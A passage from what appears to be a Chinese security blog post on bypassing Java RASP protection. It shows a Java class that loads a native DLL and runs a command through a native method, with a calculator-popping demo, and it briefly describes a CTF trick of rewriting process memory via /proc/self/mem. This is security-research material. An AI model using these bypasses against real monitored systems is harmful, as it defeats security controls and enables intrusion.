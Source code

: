 `CTRL + F9` build工程，在`cmake-build-debug`目录下多了一个`libMyLib.dll`

回到Java，下面为我们要加载的类

```java
public class NativeByPass {
    private native void eval(String cmd);
    static {
        System.load("path/libMyLib.dll");
        new NativeByPass().eval("calc");
    }
}
```

模拟类加载，成功弹出计算器！绕过RASP

```java
public class ByPass2 {
    public static void main(String[] args) throws Exception {
        Class.forName("NativeByPass");
    }
}
```

## Pwn

之前阿里云CTF看到的一个神奇的打法

大概是读取`/proc/self/maps`，然后修改进程的内存`/proc/self/mem`

涉及pwn，暂时研究不了。

附上佬的wp👉`https://godspeedcurry.github.io/posts/aliyunctf2023-bypassit2`

